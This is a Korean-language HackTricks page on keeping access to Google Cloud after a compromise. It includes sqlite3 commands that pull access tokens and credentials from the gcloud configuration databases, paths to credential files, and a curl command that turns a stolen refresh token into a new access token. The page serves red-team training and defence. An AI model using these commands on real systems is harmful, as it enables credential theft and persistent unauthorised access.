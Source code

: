 # GCP - 비 서비스 지속성

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 제로에서 영웅까지 AWS 해킹을 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 제출하세요.

</details>

이러한 기술은 어떤 방식으로든 GCP 자격 증명 또는 GCP 환경에서 실행 중인 기계를 침투한 후 유용합니다.

## 토큰 탈취

### 인증된 사용자 토큰

사용자의 **현재 토큰**을 가져오려면 다음을 실행할 수 있습니다:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

이 페이지에서 **gcloud를 사용하여이 토큰을 직접 사용하는 방법**을 확인하십시오:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

새 액세스 토큰을 생성하는 세부 정보를 얻으려면 다음을 실행하십시오:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**`$HOME/.config/gcloud/application_default_credentials.json`** 및 **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**에서 **새로 고침된 액세스 토큰**을 찾을 수도 있습니다.

**리프레시 토큰**, 클라이언트 ID 및 클라이언트 시크릿으로 새로 고침된 액세스 토큰을 얻으려면 다음을 실행하십시오:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

새로 고침 토큰의 유효성은 **관리자** > **보안** > **Google Cloud 세션 제어**에서 관리할 수 있으며, 기본적으로 16시간으로 설정되어 있지만 만료되지 않도록 설정할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 서비스 계정

인증된 사용자와 마찬가지로, 서비스 계정의 **개인 키 파일을 compromise**하면 원하는 만큼 액세스할 수 있습니다.\
그러나 서비스 계정의 **OAuth 토큰을 도난당하면** 더 흥미로울 수 있습니다. 기본적으로 이러한 토큰은 1시간 동안 유용하지만, **피해자가 개인 API 키를 삭제하더라도 OAuth 토큰은 만료될 때까지 유효**합니다.

### 메타데이터

명백히, GCP 환경에서 실행 중인 기계 내부에 있다면 메타데이터 엔드포인트에 연락하여 해당 기계에 연결된 서비스 계정에 **액세스할 수 있습니다** (이 엔드포인트에서 액세스할 수 있는 OAuth 토큰은 일반적으로 범위로 제한됩니다).

### 조치

이러한 기술에 대한 일부 조치는 [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)에서 설명되어 있습니다.

## 참고 자료

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com) 획득
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하고, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션을 살펴보세요
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
